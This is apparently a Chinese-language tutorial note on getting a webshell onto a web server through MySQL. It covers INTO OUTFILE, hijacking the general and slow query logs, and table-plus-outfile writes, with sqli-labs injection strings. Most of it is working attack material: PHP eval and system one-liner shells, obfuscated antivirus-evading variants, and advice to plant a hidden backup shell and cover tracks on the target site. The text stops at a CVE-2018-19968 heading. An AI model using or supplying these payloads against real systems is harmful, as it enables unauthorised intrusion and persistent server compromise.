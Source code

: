 ## mysql如何向日志文件写webshell进行利用





**Webshell说明：**

Webshell是一种恶意代码，通常以脚本文件的形式存在，可以在受攻击的 Web 服务器上执行命令、操纵文件系统、窃取敏感信息等。攻击者可以通过各种方式将 Webshell 注入到目标服务器上，以获取非法访问权限。



**MySQL 日志文件说明：**

MySQL 的日志文件是用于记录数据库服务器活动和事件的重要组成部分，这些日志文件对于故障排除、性能优化和安全审计非常有用。默认情况下，MySQL 的日志文件通常位于服务器的特定目录中。。在默认情况下，MySQL 会生成以下几种类型的日志文件：

1. 查询日志（Query Log）：记录所有发往 MySQL 服务器的查询语句。可以通过配置 MySQL 的选项来启用或禁用查询日志。攻击者可能会尝试通过注入恶意查询语句来在日志中插入 Webshell。
2. 错误日志（Error Log）：记录 MySQL 服务器遇到的错误和异常情况。错误日志对于故障排除和安全审计非常有用。攻击者可能会尝试通过利用服务器错误来触发异常行为，并在错误日志中留下 Webshell。
3. 慢查询日志（Slow Query Log）：记录执行时间超过预定义阈值的查询语句。慢查询日志用于性能优化和查询分析。攻击者可能会尝试通过构造复杂的查询语句来使其被记录在慢查询日志中，并在其中插入 Webshell。







### 使用outfile方法：

```
select '<?php @eval($_POST[1]);?>' into outfile 'D:/shell.php'
```

**成功向mysql写入webshell条件（至少）**

1. 数据库的当前用户为ROOT或拥有FILE权限；（FILE权限指的是对服务器主机上文件的访问） 
2. 知道网站目录的绝对路径； 
3. PHP的GPC参数为off状态； 
4. MySQL中的secure_file_priv参数不能为NULL状态。



**secure_file_priv**

secure-file-priv是一个系统变量，对于文件读/写功能进行限制。

secure_file_priv是用来限制load dumpfile、into outfile、load_file()函数在哪个目录下拥有上传和读取文件的权限。如下关于secure_file_priv的配置介绍

1. secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出，意味着通过outfile方法写入WebShell是无法成功的，但是通过导出日志的方法是可以的。
2. 当secure_file_priv的值为/tmp/（具体文件路径） ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
3. 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

注：5.5.53本身及之后的版本默认值为NULL，之前的版本无内容。

三种方法查看当前secure-file-priv的值：

select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like “secure_file_priv”;
修改：

通过修改my.ini文件，添加：secure-file-priv=
启动项添加参数：mysqld.exe --secure-file-priv=



Outfile方法其实是Mysql提供的一个用来写入文件的函数，当我们可以控制写入的文件内容以及文件的保存路径时，我们就可以达到传入WebShell的目的。当我们可以使用union查询时，我们构造一个如下语句，就可以达到效果：

```
Union select “这里是WebShell” into outfile “Web目录”；
```

当我们无法使用union时，还有一些其他方法也可以实现（利用分隔符写入）：

```
?id=1 INTO OUTFILE '物理路径' lines terminatedby （这里是WebShell）#
?id=1 INTO OUTFILE '物理路径' fields terminatedby （这里是WebShell）# 
?id=1 INTO OUTFILE'物理路径'columns terminatedby （这里是WebShell）# 
?id=1 INTO OUTFILE '物理路径' lines startingby （这里是WebShell）#
```







### 先看看sqli-labs第七关的笔记，也就是使用outfile方法：

```
?id=1'))UNION SELECT 1,2,3 into outfile "D:\\uuu.txt"--+
```

刚开始这儿一直不行，硬盘上出现不了uuu.txt，原因是自己的mysql设置问题。

在MySQL中，outfile可以用来输出一个文件。但是想要执行这样的操作，就必须要开启文件写入的权限。

我们可以执行：`show variables like '%secure%';`来查看：发现`secure_file_priv`的 value 值是 NULL，那么这代表此时文件写入的权限是关闭的，那我们需要写入输出文件的保存路径来开启它。

首先，我们来到MySQL的根目录下，会看到一个my.ini的文件。

打开my.ini文件，添加`secure_file_priv`以及他所对应的参数：（我写的是`secure_file_priv='D://'`）

```
在linux下可在/etc/my.cnf的[mysqld]里面，添加secure_file_priv=
```

注意：*路径的斜杠需要采用//需要多加一个斜杠来转义字符，其次，因为C盘的权限问题，请不要把路径写到C盘上。*【开始我没有注意这一点导致sql语句一直报错，很头疼】

之后我们重启 MySQL服务：

最后重复刚才的 sql 语句`show variables like '%secure%';` 来查看是否修改成功：发现已经出现路径了。

那这个时候，我们就可以执行`outfile`来输出文件到 D盘的任意位置了。

```
my.ini文件是MySQL数据库服务器和客户端程序的配置文件，它可以用于设置MySQL的基本运行参数、安全性、缓存、日志记录等方面的参数。
```

> 在sql漏洞中可以使用file系列函数
>
> load_file()  ：读取指定文件
> into outfile ：将查询的数据写入文件中
> into dumpfile：将查询的数据写入文件中(只能写入一行数据)
>
> ```
> secure_file_prive=null //限制mysqld 不允许导入导出
> secure_file_priv=/path/  //限制mysqld的导入导出只能发生在默认的/path/目录下
> secure_file_priv=’’  //不对mysqld 的导入 导出做限制
> ```
>
> outfile函数可以导出多行，而dumpfile只能导出一行数据
> outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

这时候我们可以通过``

```
联合：
?id=-1')) union select version(),database(),user() into outfile "D:\\uuu.txt" --+

非联合：
?id=1')) into outfile "D:\\uuu.txt" fields terminated by '' --+
```

来使得所需信息输出到 uuu.txt

**注意：储存的文件路径uuu.txt也要本身没有这个文件才可以。**

**注意：闭合条件是'))，不然也不行**







### 基于log日志写入法(全局日志)

所以`mysql`在 my.ini 中设置了导出文件的路径，无法再使用`select …… into outfile`来写入一句话

此时在 mysql 文件夹下的 my.ini 中可以设置到处路径，但是在拿 shell 时，不可能去修改配置文件。

但是可以通过修改 mysql 的 log 文件来获取 webshell

1. 我们首先进入SQL环境，执行以下SQL语句：

```sql
show variables like "%general%";
```

2. 如果 `general_log`是OFF，则需要执行`set GLOBAL general_log='ON';`（开启日志功能）

3. 接下来设置日志存储路径`SET GLOBAL general_log_file='C:/phpStudy/www/xxx.php'`

4. 最后执行sql语句,写入日志文件`select "<?php system($_GET[a]);?>"`

```
免杀shell,eval方式
mysql> select "<?php $sl = create_function('', @$_REQUEST['klion']);$sl();?>";

别人的免杀shell,assert&base64encode方式    
mysql> SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['klion']));?>";     
```

5. 处理后事：

   干完活儿以后务必记得把配置恢复原状（不然,目标站如果访问量比较大,日志文件可能会瞬间暴增连shell时会巨卡），拿到shell记得马上再传一个shell（[放的隐蔽点），然后再通过新的shell把最开始这个shell删掉，谨慎一点，起码不会让你的shell掉的那么快。

   `set global general_log = off;`







### 基于log日志写入法(慢查询日志)

1. 查看慢查询日志开启情况`show variables like '%slow_query_log%';`
2. 开启慢查询日志`set global slow_query_log=1;`
3. 修改日志文件存储的绝对路径`set global slow_query_log_file='D:/shell.php';`
4. 向日志文件中写入shell`select '<?php @eval($_POST[1]);?>' or sleep(11);`







### 将shell写入表中+outfile

**利用条件：**

1. root权限

2. 网站的绝对路径且具有写入权限

执行如下语句写入shell：

1. 将shell插入一个表中`insert into sxss(comment) values ('<?php @eval($_POST[1]);?>');`

2. 查询该数据表，将结果导出文件`select comment from sxss into outfile 'D:/shell.php';`







###  CVE-2018-19968文件包含

**受影响的phpMyAdmin版本：4.8.0 ~ 4.8.3**

